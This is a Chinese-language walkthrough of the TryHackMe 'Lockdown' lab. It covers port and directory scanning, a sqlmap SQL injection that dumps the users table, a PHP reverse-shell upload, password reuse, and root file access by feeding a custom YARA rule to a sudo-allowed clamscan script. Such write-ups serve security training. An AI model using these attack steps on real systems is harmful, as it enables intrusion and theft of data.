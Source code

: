 ```yaml
---
sidebar_position: 128
tags: [Easy, Linux, SQLI, 文件上传, SUDO]
title: "Lockdown"
description: "Lockdown"
sidebar_label: "Lockdown"
slug: /tryhackme/128
---
```


# Lockdown

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145032.png)

## 端口扫描

```bash
root@ip-10-10-227-206:~/lockdown# nmap -sTCV -p 22,80 --min-rate 1000 10.10.107.222

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-02 03:43 BST
Nmap scan report for ip-10-10-107-222.eu-west-1.compute.internal (10.10.107.222)
Host is up (0.00017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 27:1d:c5:8a:0b:bc:02:c0:f0:f1:f5:5a:d1:ff:a4:63 (RSA)
|   256 ce:f7:60:29:52:4f:65:b1:20:02:0a:2d:07:40:fd:bf (ECDSA)
|_  256 a5:b5:5a:40:13:b0:0f:b6:5a:5f:21:60:71:6f:45:2e (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Coronavirus Contact Tracer
MAC Address: 02:26:01:31:05:A7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

在我访问的时候我发现其跳转到另一个域中, 我意识到可能需要枚举域, 但是没有结果, 所以继续扫描目录

```bash
root@ip-10-10-227-206:~/lockdown# gobuster dir -u http://contacttracer.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://contacttracer.thm/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/02 03:45:43 Starting gobuster
===============================================================
/login.php (Status: 200)
/index.php (Status: 200)
/uploads (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/classes (Status: 301)
/temp (Status: 301)
/config.php (Status: 200)
/dist (Status: 301)
/404.html (Status: 200)
/inc (Status: 301)
/build (Status: 301)
/libs (Status: 301)
```

在我尝试登陆时, 我查看网页端的响应发现其将 SQL 语句返回, 所以我们完全可以借此来实现登陆的操作

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145128.png)

在此使用 sqlmap 进行扫描

```bash
root@ip-10-10-227-206:~/lockdown# sqlmap -u http://contacttracer.thm/classes/Login.php?f=login --data "username=admin&password=admin" --risk 3 --level 3
```

当我登陆之后发现进入了管理员后台界面, 我直接跳转到个人资料界面直接上传一个 php reverse shell 上去

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145132.png)

```bash
root@ip-10-10-227-206:~/lockdown# sqlmap -u http://contacttracer.thm/classes/Login.php?f=login --data "username=admin&password=admin" --risk 3 --level 3 -D cts_db -T users --dump --fresh-queries
Database: cts_db
Table: users
[1 entry]
+----+----------------------------+----------+----------+----------+--------------+------------+---------------------+---------------------+
| id | avatar                     | username | lastname | password | firstname    | last_login | date_added          | date_updated        |
+----+----------------------------+----------+----------+----------+--------------+------------+---------------------+---------------------+
| 1  | uploads/1696218780_rev.php | admin    | Admin    | <blank>  | Adminstrator | NULL       | 2021-01-20 14:02:37 | 2023-10-02 03:53:11 |
+----+----------------------------+----------+----------+----------+--------------+------------+---------------------+---------------------+
```

## 后渗透

### www-data

一旦访问上传的文件就可以获取到一个 Shell

![image-20240709145207138](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145208.png)

### www-data —> cyrus

获取到 shell 之后我查看数据库的连接文件, 并查看数据库中其他用户的密码, 期望可以发现一个密码重用的问题, 最终我发现网站管理员的密码和 cyrus 的密码一样

![image-20240709145214219](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145215.png)

![image-20240709145219045](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145220.png)

### cyrus —> root

我发现用户 cryus 具有 SUDO 特权可以执行一个 shell 脚本

```bash
cyrus@lockdown:/var/www/html$ sudo -l
[sudo] password for cyrus: 
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
cyrus@lockdown:/var/www/html$ cat /opt/scan/scan.sh
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

对于 /usr/bin/clamscan 程序经过询问 GPT 我得知这是一个病毒扫描程序, 所以我们可以添加一些 yara 规则库使得正常内容变成恶意文件

```bash
cyrus@lockdown:/etc/clamav$ ls
freshclam.conf  onerrorexecute.d  onupdateexecute.d
cyrus@lockdown:/etc/clamav$ cat freshclam.conf 
# Automatically created by the clamav-freshclam postinst
# Comments will get lost when you reconfigure the clamav-freshclam package
.....
DatabaseDirectory /var/lib/clamav # 据此我们知道了病毒数据库的位置跳转打此目录并添加一些规则库
.....
cyrus@lockdown:/var/lib/clamav$ ls -al
total 16
drwxrwxrwx  2 clamav clamav 4096 Oct  2 02:45 .
drwxr-xr-x 45 root   root   4096 Jul 30  2021 ..
-rw-r--r--  1 root   root     46 Jul 23  2021 main.hdb
-rw-r--r--  1 root   root     69 May 11  2021 mirrors.dat
cyrus@lockdown:/var/lib/clamav$ vim  my_rules.yar
cyrus@lockdown:/var/lib/clamav$ cat my_rules.yar
rule MyCustomRule
{
    meta:
        description = "My custom YARA rule"
        author = "Your Name"
    strings:
        $myString = "THM{"
        $anotherString = "home"

    condition:
        $myString or $anotherString
}
cyrus@lockdown:/var/lib/clamav$ sudo  /opt/scan/scan.sh
Enter path: /root/root.txt
/root/root.txt: YARA.MyCustomRule.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.006 sec (0 m 0 s)
Start Date: 2023:10:02 03:18:05
End Date:   2023:10:02 03:18:05
```
